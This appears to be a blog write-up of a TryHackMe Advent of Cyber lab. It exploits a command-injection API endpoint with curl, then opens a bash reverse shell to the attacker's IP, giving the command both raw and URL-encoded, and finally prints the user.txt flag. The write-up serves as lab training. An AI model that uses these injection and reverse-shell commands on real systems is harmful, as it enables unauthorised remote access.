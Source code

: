 ```yaml
---
title: "Advent of Cyber Day 19 Commands"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 19 Commands"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

Another day, another hack from the Christmas Monster. Can you get back control of the system?

Access the web server on [http://[your-ip]:3000/](http://[your-ip]:3000/)

McSkidy actually found something interesting on the /api/cmd endpoint.

Check out the supporting material [here](https://docs.google.com/document/d/1W65iKmUMtz-srteErhrGFJkWBXJ4Xk5PYlCZVMIZgs8/edit?usp=sharing).

### Setup

```bash
kali@kali:~$ curl http://10.10.79.41:3000/api/ls
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /api/ls</pre>
</body>
</html>

kali@kali:~$ curl http://10.10.79.41:3000/api/cmd/ls
{"stdout":"bin\nboot\ndata\ndev\netc\nhome\nlib\nlib64\nlocal\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n","stderr":""}
```

Let's get a reverse shell on the target

```bash
curl http://10.10.79.41:3000/api/cmd/bash -i >& /dev/tcp/10.9.45.74/9999 0>&1
```

But of course we need to url encode the payload

```bash
curl http://10.10.79.41:3000/api/cmd/bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.9.45.74%2F9999%200%3E%261
```

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### #1 What are the contents of the user.txt file?

```bash
[root@ip-10-10-79-41 /] find / | grep -i "user.txt"

/usr/share/doc/fontconfig-2.10.95/fontconfig-user.txt
"/home/bestadmin/user.txt"
```

```bash
[root@ip-10-10-79-41 /] cat /home/bestadmin/user.txt
cat /home/bestadmin/user.txt
"5W7WkjxBWwhe3RNsWJ3Q"
```
